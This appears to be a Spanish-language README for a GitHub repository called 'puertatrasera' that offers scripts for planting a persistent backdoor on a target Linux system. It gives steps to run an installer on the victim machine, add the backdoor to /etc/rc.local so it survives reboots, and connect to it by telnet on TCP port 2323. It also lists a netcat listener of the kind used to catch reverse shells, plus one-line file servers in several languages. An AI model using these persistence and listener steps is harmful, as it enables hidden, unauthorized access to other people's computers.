 # puertatrasera
Simples Script en distintos lenguakes, para crear una backdoor o puertra trasera

# instalar.sh 
( Ejecutar sh instalar.sh para instalar en el sistema que queremos dejar el backdoor residente ). 
Si no funciona editamos el fichero rc.local e incluimos la linea con el scipt:

vi /etc/rc.local

/sbin/backdoor

Otros comandos:

# netcat

while true ; do nc -l 8000 < index.html ; done

ó

rlwrap nc -lvnp 8080

# backdoor ( Se instala como un proceso en Linux. Puerto tcp 2323 )

# telnetcliente IP ( cliente telnet para acceder )

# busybox httpd

busybox httpd -f -p 8000

# Python 2.x

python -m SimpleHTTPServer 8000

# Python 3.x

python -m http.server 8000

# Ruby

ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start'

# Ruby 1.9.2+

ruby -run -ehttpd . -p8000

# Php
php -S 127.0.0.1:8000



